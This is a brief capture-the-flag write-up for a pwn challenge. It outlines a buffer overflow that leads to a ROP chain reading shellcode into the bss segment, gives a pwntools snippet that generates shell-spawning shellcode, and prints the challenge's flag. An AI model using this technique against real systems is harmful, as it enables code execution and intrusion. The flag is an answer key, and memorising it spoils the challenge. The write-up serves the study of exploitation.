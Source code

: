 @n132@

# Idea

- ret2shellcode
- ret2bss
- cover-up(I left the Leak_part deliberately for missleading.)

# Exploit

- buffer overflow to ROP:([rdi,0,rsi,bss,read,bss])
- send shellcode to get shell

```python
context.arch='amd64'
sh=asm(shellcraft.sh())
```

# Flag

`ZJGSUCTF{1765ee654ae66bc3acd747eeefe68c71}`
